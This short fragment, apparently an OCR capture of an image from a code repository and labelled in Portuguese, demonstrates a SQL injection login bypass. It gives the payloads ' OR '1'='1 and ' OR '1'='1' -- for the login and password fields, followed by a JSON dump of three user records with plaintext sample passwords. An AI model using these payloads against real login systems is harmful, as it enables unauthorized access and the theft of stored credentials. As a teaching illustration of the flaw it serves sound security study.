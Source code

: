 Login: ' OR '1'='1
Senha: ' OR '1'='1

# Resultado

[
  {
    "id": 1,
    "login": "admin",
    "senha": "admin123"
  },
  {
    "id": 2,
    "login": "user",
    "senha": "password"
  },
  {
    "id": 3,
    "login": "guest",
    "senha": "guest123"
  }
]


Login: ' OR '1'='1' -- 
Senha:  <anything>